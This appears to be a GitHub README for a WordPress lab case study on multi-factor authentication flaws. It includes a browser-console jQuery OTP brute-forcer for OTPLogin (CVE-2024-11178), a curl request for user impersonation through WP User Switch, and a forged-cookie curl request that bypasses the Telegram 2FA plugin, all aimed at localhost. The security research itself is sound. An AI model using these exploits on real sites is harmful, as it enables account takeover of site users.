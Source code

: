 # WordPress Multi-factor Authentication Experiments

## Introduction

I created a case study about several multi-factor authentication vulnerabilities using ***WordPress*** and vulnerable plugins that had no publicly available proof of concept:

- WP User Switch
- OTPLogin 
- WP 2FA with Telegram
- AppPresser (can't be exploited due to paywall, static analysis only)

## Setup

run `docker-compose -f docker-compose.yml up -d` and go to `localhost:8080`, where you can set the admin username, email and password. 

To activate the plugins, simply go to the Dashboard - Plugins - Click `Activate` on what plugin you want to activate.

## OTPLogin - CVE-2024-11178

For OTPLogin I created a simple JQuery script that can be ran inside the browser console, since that plugin doesn't have any rate limiting at all, and we needed that specific nonce.

First, call the password reset function from the `admin-ajax.php`:

```javascript
const email = 'admin@admin.com'; // use a real user, in my case I used this for testing purposes
const nonce = jQuery('[name="otplsecurity"]').val(); // grabs nonce from hidden input

jQuery.ajax({
  url: '/wp-admin/admin-ajax.php?action=otplaction',
  method: 'POST',
  data: {
    email: email,
    otplzplussecurity: '',
    otplsecurity: nonce,
    validateotp: 0
  },
  success: function (res) {
    console.log('[+] Response from OTP generation:');
    console.log(res);
  },
  error: function (xhr) {
    console.log('[!] Request failed:', xhr.responseText);
  }
});
```

Second, run the brute-force script:

```javascript
const email = 'admin@admin.com';           // Use a valid WP user
const nonce = jQuery('[name="otplsecurity"]').val(); // Grab nonce from the form


if (!nonce) {
  console.error('No nonce found');
} else {
  for(let otp = 100000; otp <= 999999; otp += 1) {
    jQuery.ajax({
      url: '/wp-admin/admin-ajax.php?action=otplaction',
      method: 'POST',
      data: {
        email: email,
        email_otp: otp,
        otplzplussecurity: '',
        otplsecurity: nonce,
        validateotp: 1
      },
      success: function (res) {
        console.log('OTP Validation Response:', res);
        if (res.status === 1 && res.response?.includes('OTP Matched')) {
          console.log('OTP Valid, you logged in');
          if (res.redirect) {
            console.log('Redirect to:', res.redirect);
          }
        } else {
          console.log('OTP INVALID or error:', res.message);
        }
      },
      error: function (xhr) {
        console.error('[!] Request failed:', xhr.responseText);
      }
    });
  }
}
```

## WP User Switch

The vulnerability appears when you change the **wpus_username** parameter and the **userid** as shown in the curl script. If you know a user and its id, you can log in as that specific user by changing the parameters. This request can be caught using Burp Suite:

```bash
curl --path-as-is -i -s -k -X $'GET' \
    -H $'Host: localhost:8080' -H $'Referer: http://localhost:8080/wp-admin/users.php?id=3' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    -b $'wordpress_37d007a56d816107ce5b52c10342db37=admin%[...]; wpus_who_switch=admin; wp-settings-time-2=1748241284; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_37d007a56d816107ce5b52c10342db37=admin%[...]; wp-settings-time-1=1749030499' \
    $'http://localhost:8080/wp-admin/admin.php?page=wp-userswitch&wpus_username=test1&wpus_userid=2&redirect=/wp-admin/users.php?update=add&id=3&wpus_nonce=ea8b1298a5'
```


## WP 2FA with Telegram

For this vulnerability to work you might actually need to configure a telegram bot for the second factor authentication to appear after logging in with username and password.

The vulnerability occurs because of the improper verification of the auth_tg_cookie that can be changed in `SHA1(authcode)`, where `authcode` can also be manipulated by the user.

After setting the specific bot, the vulnerability can be tested using this request:

```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:8080' -H $'Content-Length: 139' -H $'Cache-Control: max-age=0' -H $'sec-ch-ua: \"Not?A_Brand\";v=\"99\", \"Chromium\";v=\"130\"' -H $'sec-ch-ua-mobile: ?0' -H $'sec-ch-ua-platform: \"Linux\"' -H $'Accept-Language: en-US,en;q=0.9' -H $'Origin: http://localhost:8080' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: navigate' -H $'Sec-Fetch-User: ?1' -H $'Sec-Fetch-Dest: document' -H $'Referer: http://localhost:8080/wp-login.php' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    -b $'wp-settings-time-2=1748241284; wordpress_test_cookie=WP%20Cookie%20check; wp_lang=en_US; auth_tg_cookie=7110eda4d09e062aa5e4a390b0a572ac0d2c0220' \
    --data-binary $'nonce=6fdb8ab8a9&wp-auth-id=1&redirect_to=http%3A%2F%2Flocalhost%3A8080%2Fwp-admin%2F&rememberme=0&authcode=1234&submit=Login+with+Telegram' \
    $'http://localhost:8080/wp-login.php?action=validate_tg'
```

